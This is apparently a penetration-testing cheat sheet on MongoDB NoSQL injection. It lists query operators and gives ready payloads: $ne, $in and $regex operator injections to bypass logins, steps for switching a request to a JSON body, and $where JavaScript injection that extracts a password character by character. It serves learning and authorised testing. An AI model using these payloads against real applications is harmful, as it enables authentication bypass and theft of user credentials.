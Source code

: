 {{< details summary="Examples of MongoDB query operators" >}}

* `$where` - Matches documents that satisfy a JavaScript expression.

- `$ne` - Matches all values that are not equal to a specified value.

* `$in` - Matches all of the values specified in an array.

- `$regex` - Selects documents where values match a specified regular expression.



MongoDB Query and Projection Operators: [https://www.mongodb.com/docs/manual/reference/operator/query/](https://www.mongodb.com/docs/manual/reference/operator/query/)

{{< /details >}}

* JSON example:
  * `{"username":"wiener"}` -> `{"username":{"$ne":"invalid"}}`
* URL parameters:
  * `username=wiener` -> `username[$ne]=invalid`

***

* If this doesn't work, you can try the following (or use Content Type Converter burp exts):
  1. Convert the request method from `GET` to `POST`.
  2. Change the `Content-Type` header to `application/json`.
  3. Add JSON to the message body.
  4. Inject query operators in the JSON.

### Testing

```markdown
# Login bypass
{"username":"bob","password":{"$ne":"invalid"}}

# Guess with usernames list
{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}

# Guess with regex
{"username":{"$regex":"^adm"},"password":{"$ne":""}}
```

**Other tests**

* Example:`{"username":"wiener","password":"peter"}`
* `{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}`
* This query returns all login credentials where both the username and password are not equal to `invalid`. As a result, you're logged into the application as the first user in the collection.

## Extract data

**INSIDE $WHERE**

* Consider `https://insecure-website.com/user/lookup?username=admin`
* This results in the following NoSQL query of the `users` collection: `{"$where":"this.username == 'admin'"}`
* As the query uses the `$where` operator, you can attempt to inject JavaScript functions.
  * `admin' && this.password[0] == 'a' || 'a'=='b`
    * This returns the first character of the user's password string. You can go on...
  * `admin' && this.password.match(/\d/) || 'a'=='b`
    * Identify whether the password contains digits
